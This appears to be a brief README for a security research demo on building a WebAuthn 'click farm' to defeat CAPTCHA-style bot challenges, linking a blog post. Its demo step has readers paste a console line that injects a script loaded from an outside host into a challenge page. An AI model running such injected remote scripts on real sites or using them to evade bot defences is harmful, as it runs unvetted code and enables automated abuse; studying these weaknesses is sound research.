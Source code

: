 # Building a WebAuthn Click Farm — Are CAPTCHAs Obsolete?
Checkout the releted blog post: https://betterappsec.com/building-a-webauthn-click-farm-are-captchas-obsolete-bfab07bb798c?source=friends_link&sk=f7a2c54a4b70dc71a861e04d0793cb6b

### Demo
Visit https://cloudflarechallenge.com/ and run the following in the developer tools console:
```js
document.head.innerHTML += "<script src=//webauthn.bored.engineer/script.js>"
```
